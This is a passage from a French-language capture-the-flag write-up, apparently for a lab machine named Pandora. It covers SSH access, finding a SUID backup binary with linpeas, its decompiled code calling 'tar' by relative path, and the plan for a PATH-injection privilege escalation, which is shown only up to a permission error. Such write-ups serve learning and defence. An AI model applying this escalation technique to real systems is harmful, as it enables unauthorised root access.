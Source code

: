 ```bash
+----[SHA256]-----+

$ ssh matt@10.10.11.136 -i matt    

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
matt@pandora:~$ sudo -l
[sudo] password for matt:       # On observe bien qu'il n'y a plus d'erreur ici
matt@pandora:~$
```

### /usr/bin/pandora_backup
En utilisant **linpeas**, on découvre un binaire SUID suspect **/usr/bin/pandora_backup**. Après analyse du binaire, il semble execute la commande **tar** en tant que root. 

Il n'utilise pas un path absolu, comme par exemple "/bin/tar", ce qui va nous permettre de faire une attaque de type PATH injection :

Voici le code décompilé :
```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v3; // ebx
  __uid_t v4; // eax

  v3 = getuid();
  v4 = geteuid();
  setreuid(v4, v3);
  puts("PandoraFMS Backup Utility");
  puts("Now attempting to backup PandoraFMS client");
  if ( system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*") )
  {
    puts("Backup failed!\nCheck your permissions!");
    return 1;
  }
  else
  {
    puts("Backup successful!");
    puts("Terminating program!");
    return 0;
  }
}
```

Le problème majeur de cette box, est que si on se connecte pas en SSH, le binaire SUID ne s'execute pas en tant que root et il y a une erreur **Permission Denied** :

```bash
matt@pandora:/home/matt/.ssh$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
```
